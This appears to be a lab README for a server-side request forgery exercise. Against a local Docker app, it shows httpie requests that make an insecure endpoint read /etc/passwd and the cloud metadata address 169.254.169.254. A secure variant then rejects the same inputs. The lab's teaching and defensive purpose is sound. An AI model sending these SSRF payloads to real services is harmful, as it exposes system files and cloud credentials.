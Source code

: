 # SSRF Urllib

## Setup

* Step 1: Open terminal and change to lab directory

```bash
cd /root/ssrf-urllib
```

* Step 2: Build and run the docker

```bash
docker build -t app .
```

```bash
docker run -p 5000:5000 -it app
```

### Insecure variant

* Step 1: Now attack to see if you can read internal sensitive files

```bash
http GET http://localhost:5000/insecure/optimize url=file:///etc/passwd | jq -r '.data.raw_data' | base64 --decode
```

You should see the password entries dumped in plain text

* Step 2: Now attack to see if you can read internal sensitive url's

```bash
http GET http://localhost:5000/insecure/optimize url=http://169.254.169.254 | jq -r '.data.raw_data' | base64 --decode
```

You should see the API returning successful output here also

### Secure variant

* Step 1: Now attack to see if you can read internal sensitive files

```bash
http GET http://localhost:5000/secure/optimize url=file:///etc/passwd 
```

You should see the response as `Invalid URL`

* Step 2: Now attack to see if you can read internal sensitive url's

```bash
http GET http://localhost:5000/secure/optimize url=http://169.254.169.254 
```

You should see the response as `Invalid URL`
